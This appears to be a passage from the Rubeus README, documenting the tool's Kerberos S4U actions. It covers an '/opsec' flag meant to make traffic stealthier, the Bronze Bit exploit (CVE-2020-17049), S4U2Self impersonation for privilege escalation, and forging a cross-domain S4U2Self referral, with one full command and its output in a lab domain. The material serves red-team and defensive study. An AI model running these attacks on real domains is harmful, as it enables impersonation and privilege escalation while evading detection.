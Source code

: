 By default, several differences exists between the S4U2Self and S4U2Proxy TGS-REQ's generated by Rubeus and genuine requests. To form the TGS-REQ's more inline with genuine requests, the `/opsec` flag can be used. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used. To allow for other encryption types to be used with the `/opsec` changes, the `/force` flag exists. The `/opsec` flag has not yet been implemented for cross domain S4U.

The *Bronze Bit* exploit (CVE-2020-17049) is implemented using the `/bronzebit` flag. Adding this flag will automatically flip the *forwardable* flag when retreiving the S4U2Self ticket. As flipping this flag requires the service ticket to be decrypted and reencrypted, the long term key (service account's password hash) is required. For this reason, if a TGT is being supplied, the service accounts credentials are also required for this to work.

It is possible, in certain cirsumstances, to use an S4U2Self ticket to impersonate protected users in order to escalate privileges on the requesting system, as discussed [here](https://exploit.ph/revisiting-delegate-2-thyself.html). For this purpose, the `/self` flag and `/altservice:X` argument can be used to generate a usable service ticket.

To forge an S4U2Self referral, only the trust key is required. By using the `/targetdomain:X` argument with the `/self` flag and without the `/targetdc` argument, Rubeus will treat the ticket supplied with `/ticket:X` as an S4U2Self referral and only request the final S4U2Self service ticket. The `/altservice:X` can also be used to rewrite the sname in the resulting ticket:

    C:\Rubeus>Rubeus.exe s4u /self /targetdomain:internal.zeroday.lab /dc:idc1.internal.zeroday.lab /impersonateuser:external.admin /domain:external.zeroday.lab /altservice:host/isql1.internal.zeroday.lab /nowrap /ticket:C:\temp\s4u2self-referral.kirbi

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0

    [*] Action: S4U

    [*] Action: S4U

    [*] Using domain controller: idc1.internal.zeroday.lab (192.168.71.20)
    [*] Requesting the cross realm 'S4U2Self' for external.admin@external.zeroday.lab from idc1.internal.zeroday.lab
    [*] Sending cross realm S4U2Self request
    [+] cross realm S4U2Self success!
    [*] Substituting alternative service name 'host/isql1.internal.zeroday.lab'
    [*] base64(ticket.kirbi):

          doIFETCCBQ...RheS5sYWI=



## Ticket Management

